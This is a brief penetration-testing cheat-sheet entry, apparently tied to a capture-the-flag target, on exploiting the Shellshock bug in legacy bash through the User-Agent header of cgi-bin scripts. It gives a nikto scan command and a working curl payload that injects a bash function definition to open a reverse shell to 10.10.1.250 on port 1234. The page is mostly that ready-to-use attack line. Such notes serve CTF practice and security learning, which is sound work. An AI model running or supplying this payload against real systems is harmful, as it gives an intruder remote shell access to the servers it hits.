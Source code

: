 ### User-Agent
First you need to find a cgi-bin directory, for this task the best tool is nikto:
```bash
nikto -h <IP>
```

Next with curl we can abuse of the legacy version of outdated bash which accepts some payloads:
```bash
curl -i -H "User-agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.1.250/1234 0>&1" http://10.0.30.121/cgi-bin/uptime
```
Examples:
[ECHO CTF legacy](https://echoctf.red/target/35)

Resources:
[cgi-bin Exploitation](https://antonyt.com/blog/2020-03-27/exploiting-cgi-scripts-with-shellshock)
